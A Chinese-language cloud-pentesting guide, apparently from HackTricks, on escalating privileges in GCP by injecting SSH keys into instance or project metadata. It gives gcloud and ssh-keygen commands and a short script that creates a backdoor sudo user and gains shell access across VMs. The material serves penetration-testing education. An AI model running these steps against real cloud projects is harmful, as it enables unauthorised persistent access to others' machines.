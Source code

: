 # GCP - 添加自定义 SSH 元数据

{{#include ../../../../banners/hacktricks-training.md}}

## 修改元数据 <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

对实例的元数据进行修改可能会导致 **如果攻击者获得必要的权限，将会带来重大安全风险**。

### **将 SSH 密钥纳入自定义元数据**

在 GCP 上，**Linux 系统** 通常会从 [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) 执行脚本。其关键组件是 [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)，旨在 **定期检查** 实例元数据端点以获取 **授权 SSH 公钥的更新**。

因此，如果攻击者能够修改自定义元数据，他可以使守护进程找到一个新的公钥，该公钥将被处理并 **集成到本地系统中**。该密钥将被添加到 **现有用户的 `~/.ssh/authorized_keys` 文件中，或者根据密钥的格式可能创建一个具有 `sudo` 权限的新用户**。攻击者将能够攻陷主机。

### **将 SSH 密钥添加到现有特权用户**

1. **检查实例上的现有 SSH 密钥：**

- 执行命令以描述实例及其元数据，以定位现有的 SSH 密钥。输出中的相关部分将在 `metadata` 下，具体是 `ssh-keys` 键。

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```

- 注意 SSH 密钥的格式：用户名在密钥之前，以冒号分隔。

2. **为 SSH 密钥元数据准备文本文件：**
- 将用户名及其对应的 SSH 密钥的详细信息保存到名为 `meta.txt` 的文本文件中。这对于在添加新密钥时保留现有密钥至关重要。
3. **为目标用户（本示例中的 `alice`）生成新的 SSH 密钥：**

- 使用 `ssh-keygen` 命令生成新的 SSH 密钥，确保注释字段（`-C`）与目标用户名匹配。

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```

- 将新的公钥添加到 `meta.txt` 中，模仿实例元数据中的格式。

4. **更新实例的 SSH 密钥元数据：**

- 使用 `gcloud compute instances add-metadata` 命令将更新的 SSH 密钥元数据应用于实例。

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **使用新 SSH 密钥访问实例：**

- 使用新密钥通过 SSH 连接到实例，以目标用户（本示例中的 `alice`）的身份访问 shell。

```bash
ssh -i ./key alice@localhost
sudo id
```

### **创建新特权用户并添加 SSH 密钥**

如果没有找到有趣的用户，可以创建一个新用户并赋予其 `sudo` 权限：
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### 项目级别的 SSH 密钥 <a href="#sshing-around" id="sshing-around"></a>

通过 **在项目级别应用 SSH 密钥**，可以扩大对云环境中多个虚拟机 (VM) 的 SSH 访问范围。这种方法允许对项目中未明确阻止项目范围内 SSH 密钥的任何实例进行 SSH 访问。以下是简要指南：

1. **在项目级别应用 SSH 密钥：**

- 使用 `gcloud compute project-info add-metadata` 命令将 `meta.txt` 中的 SSH 密钥添加到项目的元数据中。此操作确保 SSH 密钥在项目中的所有 VM 中被识别，除非某个 VM 启用了“阻止项目范围内 SSH 密钥”选项。

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **使用项目范围内的密钥 SSH 进入实例：**
- 在项目范围内的 SSH 密钥到位后，您可以 SSH 进入项目中的任何实例。未阻止项目范围内密钥的实例将接受 SSH 密钥，从而授予访问权限。
- SSH 进入实例的直接方法是使用 `gcloud compute ssh [INSTANCE]` 命令。此命令使用您当前的用户名和在项目级别设置的 SSH 密钥尝试访问。

## 参考

- [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{{#include ../../../../banners/hacktricks-training.md}}
